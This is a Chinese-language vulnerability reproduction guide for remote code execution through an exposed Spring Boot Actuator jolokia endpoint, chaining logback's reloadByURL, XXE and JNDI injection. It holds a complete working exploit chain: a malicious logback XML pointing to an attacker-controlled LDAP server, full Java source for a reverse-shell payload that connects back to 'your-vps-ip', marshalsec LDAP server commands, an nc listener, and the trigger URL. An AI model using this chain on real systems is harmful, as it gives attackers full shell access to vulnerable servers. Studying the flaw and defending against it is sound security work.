 Spring Boot Actuator jolokia 配置不当导致的rce漏洞
==================================================

一、漏洞简介
------------

### 利用条件：

-   目标网站存在 /jolokia 或 /actuator/jolokia 接口

-   目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关
    MBean

-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

-   ldap 注入可能会受目标 JDK 版本影响，jdk \< 6u201/7u191/8u182/11.0.1

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

-   直接访问可触发漏洞的 URL，相当于通过 jolokia 调用
    ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
-   目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
-   目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
-   xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI
    服务器地址
-   目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

### 步骤一：查看已存在的 MBeans

访问 **/jolokia/list** 接口，查看是否存在
**ch.qos.logback.classic.jmx.JMXConfigurator** 和 **reloadByURL**
关键词。![111.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId28.png)![222.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId29.png)

### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP
服务端口（80、443）

    使用 python 快速开启 http server

    python2 -m SimpleHTTPServer 80
    python3 -m http.server 80

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：

    <configuration>
      <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
    </configuration>

### 步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：

    javac -source 1.5 -target 1.5 JNDIObject.java

然后将生成的 **JNDIObject.class** 文件拷贝到刚刚用py开启的网站根目录。

    JNDIObject.java //请自行修改代码中反弹shell的ip和端口
    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

![444.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId32.png)

### 步骤四：架设恶意 ldap 服务

下载 **marshalsec** ，使用下面命令架设对应的 **ldap** 服务：

    https://github.com/ianxtianxt/marshalsec

***ps:我这里发的是源码，需要用mvn编译marshalsec***

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

### 步骤五：监听反弹 shell 的端口

    nc -lvvp 你上一步代码里设置的端口

### 步骤六：从外部 URL 地址加载日志配置文件

    如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

    https://www.0-sec.org/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml

**服务器请求日志**![请求1.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId36.png)![请求2.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootActuatorjolokia配置不当导致的rce漏洞/media/rId37.png)
